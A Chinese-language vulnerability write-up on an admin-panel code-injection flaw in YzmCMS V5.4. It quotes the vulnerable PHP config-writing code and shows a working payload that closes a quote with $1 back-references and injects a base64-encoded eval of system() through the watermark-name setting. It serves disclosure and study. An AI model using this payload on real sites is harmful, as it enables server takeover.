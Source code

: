 ```yaml
---
title: YzmCMS V5.4 后台getshell（二）
id: zhfly3309
---
```


# YzmCMS V5.4 后台getshell（二）

## 一、漏洞简介

## 二、漏洞影响

YzmCMS V5.4

## 三、复现过程

### 漏洞分析

这个cms中有一些配置项是写在文件中，也有一些是写在数据库中的，例如上一个漏洞提到的`mode`就是写在文件中，而我们的payload是写在数据库中再进行读取的，为了避免上面手动修改配置文件这一过程，我找到了一个函数可以修改配置文件，但是问题是只能对规定的4个key进行修改，所以是不能直接修改`mode`这个key的。于是我回去查看补丁，发现修改配置的函数也进行了修改。

![image](../img/b5a6ae60653884d8ad911fb927b8eaaa.png)

该函数位于文件`application/admin/common/function/function.php`

```
function set_config($config) {
    $configfile = YZMPHP_PATH.'common'.DIRECTORY_SEPARATOR.'config/config.php';
    if(!is_writable($configfile)) showmsg('Please chmod '.$configfile.' to 0777 !', 'stop');
    $pattern = $replacement = array();
    foreach($config as $k=>$v) {
        $pattern[$k] = "/'".$k."'\s*=>\s*([']?)[^']*([']?)(\s*),/is";
        $replacement[$k] = "'".$k."' => \${1}".$v."\${2}\${3},";                    
    }
    $str = file_get_contents($configfile);
    $str = preg_replace($pattern, $replacement, $str);
    return file_put_contents($configfile, $str, LOCK_EX);       
} 
```

可以看到，补丁在原来的函数中增加了一行代码，将传入的`$config`中的字符`,`和`$`移除了，而原先就直接经过特定的正则表达式将`config.php`文件中的内容进行替换后再写回去。

调用这个函数的地方，除了安装的页面就只有`application/admin/controller/system_manage.class.php`中的`save`

```
public function save() {
        yzm_base::load_common('function/function.php', 'admin');
        if(isset($_POST['dosubmit'])){
            if(isset($_POST['mail_inbox']) && $_POST['mail_inbox']){
                if(!is_email($_POST['mail_inbox'])) showmsg(L('mail_format_error'));
            }
            if(isset($_POST['upload_types'])){
                if(empty($_POST['upload_types'])) showmsg('允许上传附件类型不能为空！', 'stop');
            }
            $arr = array();
            $config = D('config');
            foreach($_POST as $key => $value){
                if(in_array($key, array('site_theme','watermark_enable','watermark_name','watermark_position'))) {
                    $value = safe_replace(trim($value));
                    $arr[$key] = $value;
                }else{
                    if($key!='site_code'){
                        $value = htmlspecialchars($value);
                    }
                }
                $config->update(array('value'=>$value), array('name'=>$key));
            }
            set_config($arr);
            delcache('configs');
            showmsg(L('operation_success'), '', 1);
        }
    } 
```

在`save`中，只有key为`'site_theme','watermark_enable','watermark_name','watermark_position'`的配置项会经过`safe_replace`后传入`set_config`，其他项则是直接在数据库中更新。

`safe_replace`则对一些特殊字符进行了过滤

```
function safe_replace($string) {
    $string = str_replace('%20','',$string);
    $string = str_replace('%27','',$string);
    $string = str_replace('%2527','',$string);
    $string = str_replace('*','',$string);
    $string = str_replace('"','',$string);
    $string = str_replace("'",'',$string);
    $string = str_replace(';','',$string);
    $string = str_replace('<','&lt;',$string);
    $string = str_replace('>','&gt;',$string);
    $string = str_replace("{",'',$string);
    $string = str_replace('}','',$string);
    $string = str_replace('\\','',$string);
    return $string;
} 
```

审计完代码以后我们可以发现post过去的值，只有特定的key会被写入配置文件，而value不能包含`safe_replace`中的特殊字符，最后value会被拼接成为`preg_replace`中的第二个参数`$replacement`的一部分。而在`$replacement`中用了`${1}`这样的形式来指定上文匹配到的`'`，虽然`{}`被过滤了，但是`$1`实际上是与`${1}`等价的，因此我们通过这种方式闭合单引号，然后`,`也没有被过滤，所以我们可以在键值对的后面插入别的代码，可惜的是`>`是被过滤的，所以我们无法插入`key => value`这样的形式来修改项。不过可以直接插入函数，像`array(0=>1,func())`的形式中，`func`是会被执行的，并且将返回值作为value成为array的一部分。

所以只要闭合了单引号，再传递一个eval过去就可以执行代码了，因为有过滤函数，所以可以再套一层base64。

### 漏洞复现

设置的接口在系统管理的系统设置中的附加设置处。

![image](../img/40af95ef879a119eae49eef244952b07.png)

通过上文的分析我们来构建payload。

将`system('echo 123');`base64_encode以后为`c3lzdGVtKCdlY2hvIDEyMycpOw==`，套一层eval并且闭合单引号后payload为

```
$1,eval(base64_decode($1c3lzdGVtKCdlY2hvIDEyMycpOw==$1)),$1 
```

先查看配置文件原先的内容

![image](../img/9c63df80564aeff53e02c071ec8e4510.png)

回到页面，`水印图片名称`就是可用的一个配置项，在这个地方写入我们的payload并提交。

![image](../img/3c69f7b635f84cdac075ad0509978ae4.png)

提交以后可以发现已经成功执行命令了

![image](../img/ca3380ae9d91b38def813384674f2060.png)

再回去查看配置文件可以看到代码也写入了

![image](../img/99a296d259da54244bad179bd925298f.png)

## 参考链接

> https://xz.aliyun.com/t/7231#toc-5